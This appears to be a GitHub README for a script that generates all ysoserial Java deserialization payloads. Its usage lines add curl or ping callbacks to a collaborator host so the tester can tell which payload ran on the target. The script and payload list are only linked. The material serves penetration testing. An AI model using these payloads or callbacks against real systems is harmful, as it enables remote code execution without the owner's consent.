 # ysoserial-generate-all-payloads
### \-> Generates all ysoserial payloads, and can also let you know which payload worked.
### Usage:
```Bash
./generate_payloads.sh <commands>
./generate_payloads.sh --curl 'collaborator-link' #Adds payload name as a subdomain, so you can check which payload worked.
./generate_payloads.sh --request 'curl' 'collaborator-link' #Same as --curl, but you can choose the command to use. E.g. use ping instead of curl.
```
### Script: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/generate_payloads.sh) to generate all ysoserial payloads for you.

### Payloads list: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/payloads.txt)

### You can also send a HTTP request to your collaborator link, with the subdomain being the name of the payload. This way, you know which payload works:

- ![63da3eeffa1e509d262abd53b06081ec.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/00e679ac-72a4-4ce2-abf4-1ee0aa1b0eca)
- ![c8f4434126d5a991d19ece6635a66b9b.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/7bafa210-30a7-46ce-a64e-a59ad1faa63e)
- ![78fee57aa122b970f939e482faeb3703.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/b39eeca3-7214-455a-9ecc-874087229b1b)
